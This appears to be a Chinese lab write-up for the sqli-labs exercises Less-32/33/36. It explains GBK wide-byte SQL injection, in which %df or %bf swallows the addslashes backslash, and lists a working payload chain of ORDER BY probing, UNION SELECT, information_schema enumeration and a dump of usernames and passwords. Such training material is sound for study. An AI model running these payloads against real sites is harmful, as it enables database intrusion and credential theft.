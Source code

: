 ## Less-32,33,36

**宽字节注入**

注入正常的参数，网页回显正常信息。注入单引号对参数进行闭合，网页虽然返回了正确的信息，但是对单引号进行了转义。

?id=1'

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718140915821.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718140915821.png)

宽字节注入（**GBK/Big5 Character Encoding SQL Injection**）是一种利用数据库字符集与Web应用层字符编码不一致，结合转义函数（如`addslashes`）缺陷的SQL注入攻击方式。

**漏洞原理**

1. **字符集转换问题**
   
   - 当数据库使用GBK等多字节编码时，某些字符（如`0xbf5c`）会被视为一个合法字符（如`縗`），而非两个独立字节。
   
   - 攻击者通过输入`%bf%27`（`0xbf`+`'`的URL编码`%27`），触发字符集转换错误。

2. **转义函数绕过**
   
   - PHP的`addslashes`或`mysql_real_escape_string`会将单引号`'`转义为`\'`（即`%5c%27`）。
   
   - 当输入`%bf%27`时，转义后的字符串变为`%bf%5c%27`。由于GBK将`%bf%5c`解析为合法字符`縗`，剩下的`%27`（`'`）未被转义，导致注入。

对于一般的转义字符，我们是无法构造注入的 payload 的，但这并不代表网页就没有任何漏洞可以注入。对**宽字节注入漏洞**进行测试，注入如下参数。当数据库的编码采用 **GBK 国标码**时，虽然单引号还是会加上反斜杠从而被转义，但是 “%df” 会和反斜杠的 URL 编码 “%5C” 闭合，从而构成 GBK 国标码中的汉字“連”，使得用于转义的反斜杠被我们“吃掉”了。这种操作是由于 GBK 国标码是双字节表示一个汉字，因此导致了反斜杠和其他的字符共同表示为一个汉字。这可以让数据库的 SQL 查询了正确的参数(汉字)，从而可以使用 UNION 语句进行注入。

```
?id=1%df'
```

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718140915754.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718140915754.png)

```
?id=1%df' ORDER BY 3--+
?id=1%df' ORDER BY 4--+

?id=-1%df' UNION SELECT 1,2,3 --+

?id=-1%df' UNION SELECT 1,database(),3 --+

#此处数据库名要用十六进制 (HEX) 编码替代，避免单引号的使用。
?id=-1%df' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=0x7365637572697479--+

?id=-1%df' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_schema=0x7365637572697479 and table_name=0x7573657273--+

?id=-1%df' UNION SELECT 1,group_concat(concat_ws(0x3a,username,password)),3 FROM security.users--+
```

#### 

## Less-34,37
